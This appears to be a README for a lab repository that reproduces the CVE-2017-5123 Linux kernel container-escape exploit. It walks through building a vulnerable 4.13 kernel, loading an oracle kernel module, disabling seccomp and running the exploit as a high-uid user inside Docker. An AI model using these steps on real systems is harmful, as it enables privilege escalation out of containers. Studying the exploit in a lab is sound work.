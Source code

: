# container-privilege-escalation

This repository has the sources and utilities required to exploit the 
CVE-2017-5123 vulnerability which affected Linux kernel 4.13. A more 
detailed explanation of the exploit can be found on other websites such 
as ... and ...
We will use Ubuntu 16.04 for this exploit.

# Compile and install vulnerable Linux kernel

We need to first compile and install a vulnerable version of the kernel. 
We have used version 4.13. It's best if you leave enough space in your 
VM for compiling the kernel and the /boot directory.

```
sudo apt install build-essential ncurses-base libncurses5-dev \
		git build-essential kernel-package fakeroot \
		libssl-dev ccache bison flex libelf-dev dwarves
tar -xvf linux-4.13.tar.gz
cd linux-4.13
make
sudo make modules_install
sudo make install
reboot
```

After the system has rebooted we will validate that the correct kernel
version has booted.

```
uname --kernel-release
```

Unprivileged users do not have access to the kernel logs in more recent 
Linux kernel versions. Just to make sure that it is the case for our kernel 
we run the following command.

```
sudo -s
echo 1 > /proc/sys/kernel/dmesg_restrict
```

# Compile kernel module and install

We will be using a kernel module as an oracle to extract the capability base
address instead of trying to extract it through any type of information 
leakage to simplify the attack.

```
cd oracle.new/src/char_dev_kernel_module
make
gcc -o oracle oracle
sudo insmod process_cred_oracle.ko
```

# Compile the exploit code
The userspace program which invokes the vulnerable system call (`waitid`) 
can be found in the kernel-exploit folder.

```
cd kernel-exploit
make
```

# Launch exploit inside container

We are going to launch a container which has access to the kernel exploit 
userspace program which was compiled and is available in the kernel-exploit 
folder.

```
sudo docker save -o [path-to-repo]/cve.tar.gz cve:1.0
sudo docker run --security-opt seccomp=unconfined -v [path-to-repo]/kernel-exploit/:/home/user_space_program -v [path-to-repo]/linux-4.13/lib:/home/lkms -it cve:1.0 bash
```

Now that we are inside the container, we will first create a dummy user 
with the highest possible uid and use that user to launch our exploit.
```
useradd -u 4294967294 dummy
usermod -aG sudo dummy
passwd dummy

su dummy
bash
cd /home/user_space_program
./user_prog
```

After we launch the program in the container, we need to switch to the host 
and extract its pid and then pass the pid to the oracle to extract the 
capability base address.

**ON THE HOST:**
```
ps aux | grep user_prog
cd [path-to-repo]/oracle.new/src
./oracle [pid]
```
Now we will pass the capability address to the running `user_prog` in the 
container.
When the exploit is finished we can run two commands, `insmod` which installs 
the `test_firmware.ko` kernel module, `dmesg` which shows the kernel logs or
`exit` which will exit the exploit.
